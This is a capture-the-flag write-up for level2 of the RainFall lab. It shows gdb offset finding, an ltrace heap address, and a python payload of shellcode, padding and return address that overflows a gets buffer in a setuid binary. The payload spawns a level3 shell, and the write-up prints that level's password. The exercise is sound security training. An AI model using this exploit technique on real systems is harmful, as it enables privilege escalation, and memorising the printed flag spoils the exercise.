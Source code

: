 level2
======

*	We spawn with a [level2](source/level2) executable
	```console
	level2@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
	level2@RainFall:~$ ./level2 
	test
	test
	```
*	Let's take a look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level2@192.168.29.4:~/level2 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level2
	Enter the number of the executable file you want to analyze: 1
	```
*	My script created the [disas.s](source/disas.s) file which will make understanding this code a bit easier. We can see the main function calls the `p` one. This function uses `gets` which we now know is notorious for causing buffer overflow vulnerabilities. We can also see `strdup` and `printf`
*	But of course it won't happen again so this time it seems that there is `cmp` to make sure we don't overwrite the return address
	```assembly
	and    $0xb0000000,%eax
	cmp    $0xb0000000,%eax
	```
	Basically, it restrict anything that starts with `0xb` to make sure we don't use the stack
*	We are in luck since this program also uses `strdup` (which is also known for buffer overflow attacks). We might be able to use the heap !
	```assembly
	call   80483e0 <strdup@plt>
	```
*	Ok first, let's find the offset 
	```gdb
	(gdb) r
	Starting program: /home/user/level2/level2 
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

	Program received signal SIGSEGV, Segmentation fault.
	0x37634136 in ?? ()
	```
	I am using the same [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) than level1 and the offset is `80`
*	We also need a shell code to launch `/bin/sh` and we can find one [here](http://shell-storm.org/shellcode/index.html)
*	The one we are looking for is [this one](http://shell-storm.org/shellcode/files/shellcode-575.html).
*	Unlike stack-based buffer overflows, where the return address is typically located nearby the buffer being overflowed, in heap-based overflows, the return address might not be directly overwritten. So we have to find the return address
	```console
	level2@RainFall:~$ ltrace ./level2 
	__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
	fflush(0xb7fd1a20)                                               = 0
	gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                    = 0xbffff6fc
	puts("")                                                         = 1
	strdup("")                                                       = 0x0804a008
	+++ exited (status 8) +++
	```
*	Let's see what we need to put in our exploit:
	*	shellcode : 21 bytes
	*	return address : 4 bytes (`\x08\xa0\x04\x08` little endian rule)
	*	data left to fill : 80 - 21 = 59 bytes
*	We should have all we need to exploit the program:
	```console
	python -c 'print "shellcode" + "q" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
	level2@RainFall:~$ cat /tmp/payload - | ./level2 
	j
	X�Rh//shh/bin��1�̀qqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqqq�
	whoami
	level3
	cat /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```
	I replaced `shellcode` to make it more readable